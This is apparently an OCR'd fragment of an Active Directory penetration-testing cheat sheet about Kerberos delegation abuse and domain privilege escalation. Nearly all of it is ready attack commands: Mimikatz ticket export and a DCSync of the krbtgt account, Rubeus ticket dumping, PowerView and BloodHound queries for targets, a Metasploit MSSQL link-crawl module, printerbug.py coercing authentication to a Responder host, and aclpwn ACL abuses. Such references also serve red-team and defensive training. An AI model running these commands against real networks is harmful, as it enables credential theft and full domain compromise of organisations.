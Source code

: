 - Get unconstrained delegation machines

	- Get-NetComputer -Unconstrained
	- Get-DomainComputer -Unconstrained -Properties DnsHostName
	- MATCH (c:Computer {unconstraineddelegation:true}) RETURN c
	- MATCH (u:User {owned:true}), (c:Computer {unconstraineddelegation:true}), p=shortestPath((u)-[*1..]->(c)) RETURN p

### Constrained delegation

- Get tickets

	- privilege::debug sekurlsa::tickets /export sekurlsa::tickets /export
	- Rubeus dump /service:krbtgt /nowrap
	- Rubeus dump /luid:0xdeadbeef /nowrap

- Get constrained delegation machines

	- Get-DomainComputer -TrustedToAuth -Properties DnsHostName, MSDS-AllowedToDelegateTo
	- MATCH (c:Computer), (t:Computer), p=((c)-[:AllowedToDelegate]->(t)) RETURN p
	- MATCH (u:User {owned:true}), (c:Computer {name: "<MYTARGET.FQDN>"}), p=shortestPath((u)-[*1..]->(c)) RETURN p

### Resource-Based Constrained Delegation

### dcsync

- lsadump::dcsync /domain:htb.local /user:krbtgt # Administrators, Domain Admins, or Enterprise Admins as well as Domain Controller computer accounts

### WSUSpect

- WSUSpendu.ps1 # need compromised WSUS server

### sccm

- CMPivot

### MSSQL Trusted Links

- use exploit/windows/mssql/mssql_linkcrawler

### Printers spooler service abuse

- rpcdump.py <domain>/<user>:<password>@<domain_server> | grep MS-RPRN

	- printerbug.py '<domain>/<username>:<password>'@<Printer IP> <RESPONDERIP>

### AD acl abuse

- aclpwn.py

	- GenericAll on User
	- GenericAll on Group
	- GenericAll / GenericWrite / Write on Computer
	- WriteProperty on Group
	- Self (Self-Membership) on Group
	- WriteProperty (Self-Membership)
	- ForceChangePassword
	- WriteOwner on Group
	- GenericWrite on User
	- WriteDACL + WriteOwner
